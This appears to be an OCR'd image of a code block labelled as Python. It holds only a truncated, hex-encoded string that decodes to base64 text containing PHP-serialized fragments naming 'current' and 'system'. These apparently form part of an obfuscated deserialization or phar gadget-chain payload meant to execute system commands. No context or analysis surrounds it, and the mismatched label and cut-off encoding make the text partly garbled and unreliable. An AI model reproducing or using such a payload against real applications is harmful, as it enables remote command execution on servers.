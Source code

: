 ```python
0=49=00=36=00=65=00=32=00=6B=00=36=00=4D=00=44=00=74=00=7A=00=4F=00=6A=00=63=00=36=00=49=00=6D=00=4E=00=31=00=63=00=6E=00=4A=00=6C=00=62=00=6E=00=51=00=69=00=4F=00=32=00=6B=00=36=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=59=00=36=00=49=00=6E=00=4E=00=35=00=63=00=33=00=52=00=6C=00=62=00=53=00=49=00=37=00=66=00=58=00=31=00=39=00=42=00=51=00=41=00=41=00=41=00=47=00=52=00=31=00=62=00=57=00=31=00=35=00=42=00=41=00=41=00=41=00=41=00=44=00=77=00=7A=00=43=00=6D=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4B=00=51=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=43=00=41=00=41=00=41=00=41=00=48=00=